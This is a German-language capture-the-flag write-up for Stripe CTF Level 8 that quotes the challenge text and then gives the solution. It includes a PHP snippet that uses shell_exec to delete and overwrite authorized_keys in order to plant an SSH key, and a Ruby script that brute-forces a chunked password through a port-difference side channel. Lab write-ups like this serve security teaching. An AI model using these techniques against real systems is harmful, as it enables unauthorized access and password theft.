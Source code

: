 LEVEL 08
========

ssh running on server 2, inject your ssh-key with ssh.php.
Log in with user-XXXXX@level02-X.stripe-ctf.com.

Configure and upload crack0r.rb. After that: run it!

---

Welcome to the final level, Level 8.

HINT 1: No, really, we're not looking for a timing attack.

HINT 2: Running the server locally is probably a good place to start. Anything interesting in the output?

UPDATE: If you push the reset button for Level 8, you will be moved to a different Level 8 machine, and the value of your Flag will change. If you push the reset button on Level 2, you will be bounced to a new Level 2 machine, but the value of your Flag won't change.

Because password theft has become such a rampant problem, a security firm has decided to create PasswordDB, a new and secure way of storing and validating passwords. You've recently learned that the Flag itself is protected in a PasswordDB instance, accesible at https://level08-4.stripe-ctf.com/user-XXXX/.

PasswordDB exposes a simple JSON API. You just POST a payload of the form {"password": "password-to-check", "webhooks": ["mysite.com:3000", ...]} to PasswordDB, which will respond with a {"success": true}" or {"success": false}" to you and your specified webhook endpoints.

(For example, try running curl https://level08-4.stripe-ctf.com/user-XXXX/ -d '{"password": "password-to-check", "webhooks": []}'.)

In PasswordDB, the password is never stored in a single location or process, making it the bane of attackers' respective existences. Instead, the password is "chunked" across multiple processes, called "chunk servers". These may live on the same machine as the HTTP-accepting "primary server", or for added security may live on a different machine. PasswordDB comes with built-in security features such as timing attack prevention and protection against using unequitable amounts of CPU time (relative to other PasswordDB instances on the same machine).

As a secure cherry on top, the machine hosting the primary server has very locked down network access. It can only make outbound requests to other stripe-ctf.com servers. As you learned in Level 5, someone forgot to internally firewall off the high ports from the Level 2 server. (It's almost like someone on the inside is helping you — there's an sshd running on the Level 2 server as well.)

To maximize adoption, usability is also a goal of PasswordDB. Hence a launcher script, password_db_launcher, has been created for the express purpose of securing the Flag. It validates that your password looks like a valid Flag and automatically spins up 4 chunk servers and a primary server.

You can obtain the code for PasswordDB from git clone https://level08-4.stripe-ctf.com/user-XXXX/level08-code, or simply read the source below.

---

Der Passwordstore in Level08 hält ein 12-stelliges numerisches Passwort, welches in vier Teile geteilt wurde und in vier Prozesse ausgelaert wurde. Senden wir einen Request zu dem Primärserver, so werden alle vier Chunkserver auf die Callback-URL zugreifen und false bzw. true melden.

    curl https://level08-4.stripe-ctf.com/user-XXXX/ -d '{"password": "password-to-check", "webhooks": []}'

Ein Passwort 123456789012 wird also in die chunks [123, 456, 789, 012] geteilt. Nun können wir hier einfach die einzelnen Chunks hochzählen und auf  eine true-Antwort des Chunkservers warten. Ist das für den ersten Chunk gelungen, so zählen wir einfach den zweiten weiter hoch. Was aus den Logfiles des Servers (probiert's mal lokal aus!) ersichtlich wird, ist, dass uns die Portabstände verraten, welcher Chunkserver zu welchem Chunk Rückmeldung gibt. Darüber hinaus haben wir das kleine Problem, dass der Passwortserver keine Netzverbindung nach aussen hat, lediglich auf Server  *stripe-ctf.com kann der Passwortserver zugreifen. Um ein Script auszuführen bräuchten wir also Zugang zum SSH-Server aus Level02. Wenn wir uns mit dem Username aus Level02 auf dem Server per SSH einloggen wollen fällt auf, dass man lediglich per Public Key zugreifen kann. Also kann man hier ein kleines Script benutzen, welches unseren SSH-Key in die _~/.ssh/allowed_keys_ injiziert.

    <?php
      error_reporting(E_ALL);
      $key = "your id_rsa.pub key"
      shell_exec('rm -rf ../../.ssh/authorized_keys');
      shell_exec('touch ../../.ssh/authorized_keys');
      shell_exec('echo ' . $key . ' >> ../../.ssh/authorized_keys');
      echo shell_exec('cat ../../.ssh/authorized_keys');
    ?>

Danach kann man sich per SSH einloggen. Wer nicht weiß wie man einen id_rsa.pub Key generiert...äh. Googlen?
Jetzt kann man folgendes, kleines Script verwenden um das Passwort per Bruteforce herauszufinden - das dauert ein wenig, funktioniert aber super!

    require 'net/http'
    require 'net/https'
    require 'socket'

    port = 0
    #host = "https://level08-4.stripe-ctf.com/user-xxxxx/"
    #lvl2machine = "level02-2.stripe-ctf.com"
    host = "http://127.0.0.1:3000"
    lvl2machine = '127.0.0.1'
    webhooks = []

    chunks = [0, 0, 0, 0]

    uri = URI.parse(host);
    server = TCPServer.new(32000)

    while true
      password = "#{chunks[0].to_s.rjust(3, '0')}#{chunks[1].to_s.rjust(3, '0')}#{chunks[2].to_s.rjust(3, '0')}#{chunks[3].to_s.rjust(3, '0')}"
      body = "{\"password\": \"#{password}\", \"webhooks\": [\"#{lvl2machine}:#{server.addr[1]}\"]}"
      http = Net::HTTP.new(uri.host, uri.port)
      #http.use_ssl = true # needed for production system
      #http.verify_mode = OpenSSL::SSL::VERIFY_NONE # needed for production system
      req = Net::HTTP::Post.new(uri.request_uri)
      req.body = body
      begin
        response = http.request(req)
        client = server.accept
      rescue
        puts 'exception!'
        next
      end
      if port != 0
        diff = client.peeraddr[1] - port
        print "Password: #{password} - "
        p client.peeraddr
        index = diff - 3 # may need adjustment
        if [0,1,2,3].include? index
          chunks[index] += 1
        end
        if response.body.include?("true")
          puts 'BAM'
          return
        end
      end
      port = client.peeraddr[1]
      client.close
    end

Man erstellt also auf dem Server von Level 2 einen kleinen TCP Server, der auf Verbindungen der Chunkserver wartet. Das ist notwendig, damit wir an die Portnummer des sendenden Prozesses kommmen. Danach wird eine Differenz aus letztem und aktuellen Port errechnet und danach der zugehörige Chunk aufaddiert. Am Ende sollte dann das korrekte Passwort ausgegeben werden. Fertig!